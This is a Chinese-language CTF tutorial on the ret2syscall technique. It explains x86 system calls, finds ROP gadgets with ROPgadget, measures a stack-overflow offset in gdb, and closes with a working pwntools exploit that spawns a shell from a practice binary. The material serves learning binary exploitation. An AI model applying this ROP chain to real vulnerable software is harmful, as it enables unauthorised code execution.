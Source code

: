 ```yaml
---
title: 【PWN】ret2syscall
---
```


## 原理

ret2syscall 即控制程序执行系统调用来获取 shell
什么是系统调用？
- 操作系统提供给用户的编程接口
- 是提供访问操作系统所管理的底层硬件的接口
- 本质上是一些内核函数代码，以规范的方式驱动硬件
- x86 通过 int 0x80 指令进行系统调用、amd64 通过 syscall 指令进行系统调用
mov eax, 0xb
mov ebx, [“/bin/sh”] 
mov ecx, 0
mov edx, 0
int 0x80
=> execve("/bin/sh",NULL,NULL)
![1.jpg](/assets/wgpsec/images/ret2syscall/1.jpg)
## 例题
链接：https://pan.baidu.com/s/19ymHlZZmVGsJHFmmlwww0w 提取码：r4el 
首先checksec 看一下保护机制

![2.jpg](/assets/wgpsec/images/ret2syscall/2.jpg)

接着使用ida打开分析

![3.jpg](/assets/wgpsec/images/ret2syscall/3.jpg)

gets函数存在明显的栈溢出，但是这次没有后门函数，NX防护也打开了，那么就要换一种套路了，通过系统调用拿到shell
我们需要控制eax，ebx，ecx，edx的值，可以使用ROPgadget这个工具帮我们找到所需的代码片段。
首先寻找控制 eax 的 gadgets
ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'eax'

![4.jpg](/assets/wgpsec/images/ret2syscall/4.jpg)

然后寻找控制ebx的
ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'ebx'，其中红色框框圈出来的能让我们控制余下的寄存器，就不用再接着找了。

![5.jpg](/assets/wgpsec/images/ret2syscall/5.jpg)

接着寻找程序中有没有int 80指令，ROPgadget --binary ret2syscall --only 'int'

![6.jpg](/assets/wgpsec/images/ret2syscall/6.jpg)

最后我们还需要找到一个字符串/bin/sh，ROPgadget --binary ret2syscall --string '/bin/sh'

![7.jpg](/assets/wgpsec/images/ret2syscall/7.jpg)

这样我们就可以构造0xb的系统调用，具体要溢出多少字节可以使用gdb动态调试获取，
gdb ret2syscall
b main（在main函数下断点）
r（让程序跑起来）
n（单步执行）
一直走到gets函数输入字符串AAAAAAAA

![8.jpg](/assets/wgpsec/images/ret2syscall/8.jpg)

然后使用stack 35命令查看栈内容

![9.jpg](/assets/wgpsec/images/ret2syscall/9.jpg)

b8 - 4c = 6c，再加上ebp的4个字节，总共需要填充0x70个字节到返回地址
最后成功利用的堆栈图如下

![10.jpg](/assets/wgpsec/images/ret2syscall/10.png)

exp：

```python
from pwn import *

sh = process('./ret2syscall')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_80 = 0x08049421
bin_sh = 0x080be408

payload = flat(['A' * 0x70,  pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, bin_sh, int_80])

sh.sendline(payload)

sh.interactive()
```